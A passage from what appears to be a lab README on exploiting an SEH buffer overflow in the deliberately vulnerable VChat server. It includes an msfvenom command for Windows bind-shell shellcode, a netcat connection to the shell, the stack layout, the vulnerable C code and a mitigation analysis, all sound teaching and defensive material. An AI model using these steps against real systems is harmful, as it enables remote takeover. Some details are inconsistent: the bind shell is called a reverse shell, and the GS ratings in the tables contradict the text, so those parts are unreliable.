Up until this point in time,  we have been performing [Denial of Service](https://attack.mitre.org/techniques/T0814/) (DoS) attacks. Since we simply overflowed the stack with what is effectively garbage address values (a series of `A`s, `B`s, and `C`s), all we have done with our exploits is crash the VChat server directly or indirectly after our jump instructions lead to an invalid operation. Now, we have all the information necessary to control the flow of VChat's execution, allowing us to inject [Shellcode](https://www.sentinelone.com/blog/malicious-input-how-hackers-use-shellcode/) and perform a more meaningful attack.

1. We create a bind shell. This is a program that listens for connections on the target machine and provides a shell to anyone that makes a tcp connection to the port it is listening on. We can generate the shellcode with the following command.
	```sh
	$ msfvenom -p windows/shell_bind_tcp RPORT=4444 EXITFUNC=thread -f python -v SHELL -a x86 --platform windows -b '\x00\x0a\x0d'
	```
   * `msfvenom`: [Metasploit](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html) payload encoder and generator.
   * `-p windows/shell_bind_tcp`: Specify we are using the tcp bind shell payload for windows.
     * `RPORT=4444`: Specify the Receiving (Remote) port is 4444.
     * `EXITFUNC=thread`: Exit process, this is running as a thread.
     * `-f`: The output format.
       * `python`: Format for use in python scripts.
     * `-v`: Specify a custom variable name.
     * `SHELL`: Shell Variable name.
     * `-a x86`: Specify the target architecture as `x86`
     * `--platform windows`: Specify the target platform as Windows
     * `-b`: Specifies bad chars and byte values. This is given in the byte values.
       * `\x00\x0a\x0d`: Null char, carriage return, and newline.


2. Create the byte array representing the shellcode as done in [exploit6.py](./SourceCode/exploit6.py). Remember this should be placed at the start of the buffer! Now we are in the final stage. If all previous steps have succeeded then placing this shellcode at the start of the buffer should enabled us to get arbitrary code execution.
3. Now, let's see how the program reacts!
   1. Observe the exploit hitting the `pop/pop/ret` gadget after passing the exception to the program.
   2. Observe the program hitting the short jump instruction.
   3. Observe the program hitting the long jump instruction.
   4. Observe that we are not at the start of the shell code!

4. Now run netcat and use the reverse shell: `nc 10.0.2.15 4444`.

      

```
    |                                    |<-- High address
    |------------------------------------|
--> | b'\xe9\x02\xf2\xff\xff'            | # JMP to shellcode ----------------------------
|   |------------------------------------|                                                |
|   | Padding                            |                                                |
|   |------------------------------------|                                                |
|   | 0x6250271B (POP R32; POP R32; RETN | # Overwriting SEH handler; RETN will run ----  |
|   |------------------------------------|                                             |  |
|   | b'\x90\x90'                        | # Padding                                   |  |
|   |------------------------------------|                                             |  |
|<--| b'\xeb\x08' (JMP SHORT +0xa)       |                                             |  |
    |------------------------------------|<---------------------------------------------  |
    | b'A' * (3571 - 4 - len(SHELL))     | # Padding                                      |
    |------------------------------------|                                                |
    | SHELL                              |                                                |
    |------------------------------------|<------------------------------------------------
    | b'GMON /.:/'                       |
    |------------------------------------|
    |                                    |<- Low address
```

## Attack Mitigation Table
In this section we will discuss the effects a variety of defenses would have on *this specific attack* on the VChat server, specifically we will be discussing their effects on a buffer overflow that overwrites a SEH record and attempts to execute shellcode that has been written to the stack. We will make a note that some mitigations may be bypassed if the target application contains additional vulnerabilities such as a [format string vulnerability](https://owasp.org/www-community/attacks/Format_string_attack), or by using more complex exploits like [Return Oriented Programming (ROP)](https://github.com/DaintyJet/VChat_TRUN_ROP).

First, we will examine the effects of individual defenses on this exploit, and then we will examine the effects of a combination of these defenses on the VChat exploit.

The mitigations we will be using in the following examination are:
* [Buffer Security Check (GS)](https://github.com/DaintyJet/VChat_Security_Cookies): Security Cookies are inserted on the stack to detect when critical data such as the base pointer, return address or arguments have been overflowed. Integrity is checked on function return.
* [Data Execution Prevention (DEP)](https://github.com/DaintyJet/VChat_DEP_Intro): Uses paged memory protection to mark all non-code (.text) sections as non-executable. This prevents shellcode on the stack or heap from being executed as an exception will be raised.
* [Address Space Layout Randomization (ASLR)](https://github.com/DaintyJet/VChat_ASLR_Intro): This mitigation makes it harder to locate where functions and datastructures are located as their region's starting address will be randomized. This is only done when the process is loaded, and if a DLL has ASLR enabled it will only have it's addresses randomized again when it is no longer in use and has been unloaded from memory.
* [SafeSEH](https://github.com/DaintyJet/VChat_SEH): This is a protection for the Structured Exception Handing mechanism in Windows. It validates that the exception handler we would like to execute is contained in a table generated at compile time.
* [SEHOP](https://github.com/DaintyJet/VChat_SEH): This is a protection for the Structured Exception Handing mechanism in Windows. It validates the integrity of the SEH chain during a runtime check.
* [Control Flow Guard (CFG)](https://github.com/DaintyJet/VChat_CFG): This mitigation verifies that indirect calls or jumps are performed to locations contained in a table generated at compile time. Examples of indirect calls or jumps include function pointers being used to call a function, or if you are using `C++` virtual functions, which would be considered indirect calls as you index a table of function pointers.
* [Heap Integrity Validation](https://github.com/DaintyJet/VChat_Heap_Defense): This mitigation verifies the integrity of a heap when operations are performed on it, such as allocations or frees of heap objects.

### Individual Defenses: VChat Exploit
This exploit is similar to all the previous exploits except that an exception is raised before the function can exit and return normally. This means the exception-handling mechanism is triggered due to some operation performed at runtime.

|Mitigation Level|Defense: Buffer Security Check (GS)|Defense: Data Execution Prevention (DEP)|Defense: Address Space Layout Randomization (ASLR) |Defense: SafeSEH| Defense: SEHOP | Defense: Heap Integrity Validation| Defense: Control Flow Guard (CFG) |
|-|-|-|-|-|-|-|-|
|No Effect| | |X |X |X | X| X| X|
|Partial Mitigation| | |X| | | | | |
|Full Mitigation| |X| | | | | | | |
---
|Mitigation Level|Defenses|
|-|-|
|No Effect|SafeSEH, SEHOP, Heap Integrity Validation, and Control Flow Guard (CFG)|
|Partial Mitigation|Address Space Layout Randomization|
|Full Mitigation|Buffer Security Checks (GS) ***or*** Data Execution Prevention (DEP)|


* `Defense: Buffer Security Check (GS)`: This mitigation strategy proves effective against stack-based buffer overflows that overwrite the return address or arguments of a function. This is because the randomly generated security cookie is placed before the return address, and its integrity is validated before the return address is loaded into the `EIP` register. As the security cookie is placed before the return address, in order for us to overflow the return address, we would have to corrupt the security cookie, allowing us to detect the overflow. As the SEH Record is contained deeper in the stack, in order to overwrite it, we would overwrite the security cookie. However, as we do not return, this mitigation is never verified.
* `Defense: Data Execution Prevention (DEP)`: This mitigation strategy proves effective against stack-based buffer overflows that attempt to **directly execute** shellcode located on the stack as this would raise an exception.
* `Defense: Address Space Layout Randomization (ASLR)`: This does not affect our exploit as we do not require the addresses of external libraries or the addresses of internal functions. The jumps that we perform as part of the exploit are *relative* and compute where the flow of execution is directed to based on the current location.
* `Defense: SafeSEH`: This would prove effective as long as the SEH chain overflowed is contained in a module that has SAFESEH enabled, as the handler in the SEH record would no longer point to an address contained in the SAFESEH table.
* `Defense: SEHOP`: This would prove effective as overflowing the SEH handler would overwrite the next pointer, breaking the SEH chain which means the SEHOP mitigation would be unable to verify the SEH chain by traversing from the start till the end.
* `Defense: Heap Integrity Validation`: This does not affect our exploit as we do not leverage the Windows Heap.
* `Defense: Control Flow Guard`: This does not affect our exploit as we do not leverage indirect calls or jumps.
> [!NOTE]
> `Defense: Buffer Security Check (GS)`: If the application improperly initializes the global security cookie or contains additional vulnerabilities that can leak values on the stack, then this mitigation strategy can be bypassed.
>
> `Defense: Data Execution Prevention (DEP)`: If the attacker employs a [ROP Technique](https://github.com/DaintyJet/VChat_TRUN_ROP) then this defense can by bypassed.
>
> `Defense: Address Space Layout Randomization (ASLR)`: This defense can be bypassed if the attacker can leak addresses, or they may brute force the offsets of functions they are calling in the shellcode. This mitigation does not prevent the exploit but simply makes it harder and less reliable.
 ### Combined Defenses: VChat Exploit
|Mitigation Level|Defense: Buffer Security Check (GS)|Defense: Data Execution Prevention (DEP)|Defense: Address Layout Randomization (ASLR) |Defense: SafeSEH| Defense: SEHOP | Defense: Heap Integrity Validation| Defense: Control Flow Guard (CFG)|
|-|-|-|-|-|-|-|-|
|Defense: Data Execution Prevention (DEP)|**No Increase**: As the function does not return, we do not verify the integrity of the security cookie.|X| **No Increase**: The randomization of addresses does not affect the protections provided by DEP.|**Increased Security**: Combining two effective mitigations provides the benefits of both.|**Increased Security**: Combining two effective mitigations provides the benefits of both.|**No Increase**: The windows Heap is not exploited.|**No Increase**: Indirect Calls/Jumps are not exploited. | |
|Defense: SafeSEH|**No Increase**: As the function does not return, we do not verify the integrity of the security cookie.|**Increased Security**: Combining two effective mitigations provides the benefits of both.|**No Increase**: We do not directly use external functions, and any jumps are relative. |X|**Increased Security**: Combining two effective mitigations provides the benefits of both. In this case, if SafeSEH were to be bypassed, SEHOP may catch this.|**No Increase**: The Windows Heap is not exploited.|**No Increase**: Indirect Calls/Jumps are not exploited.| |
|Defense: SEHOP|**No Increase**: As the function does not return, we do not verify the integrity of the security cookie.|**Increased Security**: Combining two effective mitigations provides the benefits of both.|**No Increase**: We do not directly use external functions, and any jumps are relative.|**Increased Security**: Combining two effective mitigations provides the benefits of both. If SEHOP were to be bypassed, SafeSEH may catch this.|X|**No Increase**: The Windows Heap is not exploited.|**No Increase**: Indirect Calls/Jumps are not exploited.| |


## VChat Code

In the ```DWORD WINAPI ConnectionHandler(LPVOID CSocket)``` function, which handles all connections made the the VChat server, the **GMON** case has the following structure:
```c
char GmonStatus[13] = "GMON STARTED\n";
for (i = 5; i < RecvBufLen; i++) {
	if ((char)RecvBuf[i] == '/') {
		if (strlen(RecvBuf) > 3950) {
			Function3(RecvBuf);
		}
		break;
	}
}
SendResult = send(Client, GmonStatus, sizeof(GmonStatus), 0);
```
1) Declare an array `GmonStatus` that has space for twelve characters and one null terminator.
2) Check each character in the user input `RecvBuf` for a `/`, if one exists and the length of the string received is greater than 3950 we will make a call to `Function3`, otherwise we break out of the for loop.
	* Since we pass the `RecvBuff` directly unlike in [`GTER`](https://github.com/DaintyJet/VChat_GTER_EggHunter) which limits the buffer passed to 180 and [`TRUN`](https://github.com/DaintyJet/VChat_TURN) which limits the buffer passed to 300	in `GMON` the buffer is limited by the size of the `RecvBuf` which is 4096.
3) Send a result back to the client, either after finding a `/` in `RecvBuf` or scanning through it's entirety.


Function3 code:
```c
void Function3(char* Input) {
	char Buffer2S[2000];
	strcpy(Buffer2S, Input);
}
```
1) Declare an array of size 2000.
2) Copy the contents of `Input`, which is `RecvBuf`, into the array `Buffer2S`.
	* The `Input` array can hold up to 4096 characters, this is slightly over two times as much as what `Buffer2S` can hold.
	* This is using `strcpy`, which is bounded by the location of the null terminator `\0` in the source string. This means we are not bounded by the size of the destination string.
	* During this copy an exception occurs in the program when the source `Input` is of sufficient size, this prevents us from overwriting the `EIP` register directly. However as the SEH chain is stored on the stack, we are able to control the EIP through the SEH addresses.

## Test code
1. [exploit0.py](./SourceCode/exploit0.py): Initial overflow to find.
2. [exploit1.py](./SourceCode/exploit1.py): Sending a cyclic pattern of chars to identify the offset that we need to inject to control EIP.
3. [exploit2.py](./SourceCode/exploit2.py): Verify location of the SEH Handle.
4. [exploit3.py](./SourceCode/exploit3.py): Jumping to *POP EAX, POP EDX, RETN*.
4. [exploit4.py](./SourceCode/exploit4.py): Adding *JMP SHORT*.
6. [exploit5.py](./SourceCode/exploit5.py): Adding a long *JMP* instruction for jumping to the start of the buffer.
7. [exploit6.py](./SourceCode/exploit6.py): Adding reverse shell code.

<!-- ## Refernces 
https://www.securitychops.com/2019/03/24/retro-exploit-series-episode-one-vulnserver-gmon-seh.html

https://resources.infosecinstitute.com/topics/hacking/seh-exploit/ -- Look Into for adding more details
-->
